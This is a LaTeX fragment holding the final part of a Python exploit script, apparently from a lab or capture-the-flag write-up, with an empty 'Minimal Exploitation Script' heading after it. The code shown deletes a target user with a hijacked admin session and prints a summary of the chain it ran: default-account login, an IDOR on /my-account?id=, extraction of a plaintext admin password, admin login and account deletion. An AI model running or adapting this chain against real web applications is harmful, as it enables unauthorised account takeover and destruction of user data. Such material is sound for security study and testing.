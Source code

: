 \documentclass[11pt,letterpaper]{article}
\begin{document}
\begin{verbatim}
    if not delete_user(admin_session, base_url, args.target):
        print("[-] Failed to delete target user.")
        sys.exit(1)

    # ============================================
    # Summary
    # ============================================
    print("\n" + "="*60)
    print("EXPLOITATION SUMMARY")
    print("="*60)

    print(f"""
[+] Attack Chain Completed Successfully!

    Step 1: Logged in as '{DEFAULT_USERNAME}'
    Step 2: Exploited IDOR on /my-account?id={args.admin_user}
    Step 3: Extracted password: {admin_password}
    Step 4: Authenticated as '{args.admin_user}'
    Step 5: Deleted user '{args.target}'

[+] Vulnerabilities Exploited:
    - CWE-639: IDOR (Broken Object-Level Authorization)
    - CWE-256: Plaintext Password Storage/Disclosure

[+] This demonstrates a CRITICAL chained vulnerability leading to
    complete administrative account takeover.
    """)

    sys.exit(0)

if __name__ == "__main__":
    main()
\end{verbatim}
\par

\subsection{Minimal Exploitation Script}
\end{document}
